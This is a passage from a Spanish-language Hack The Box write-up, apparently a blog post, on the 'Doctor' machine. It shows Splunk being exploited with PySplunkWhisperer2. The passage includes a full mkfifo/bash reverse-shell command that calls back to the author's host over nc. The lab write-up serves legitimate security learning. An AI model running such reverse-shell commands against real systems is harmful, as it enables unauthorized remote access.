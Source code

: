 Usaremos `--payload` en la ejecución para alojar nuestros comandos ;) Generemos una Reverse Shell de una, tomemos el mismo con el que accedimos a `web`.

```bash
–» python3 SplunkWhisperer2/PySplunkWhisperer2/PySplunkWhisperer2_remote.py --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.83 4434 >/tmp/f"
```

![278pagesplunk_Psy_revshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagesplunk_Psy_revshell.png)

Listos, tamos dentro, bastante sencillo, aunque antes de encontrar este exploit, estaba un toque confundido usando otras herramientas, pero bueno, una búsqueda siempre confiable con Google: `exploit splunk github`.

Veamos las flags:

![278flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278flags.png)

...

Máquina un poco traviesa al inicio, bastante sencilla la escalada, quizás para compensar el mismo inicio. 

Gracias por pasarte y a seguir rompiendo todo (: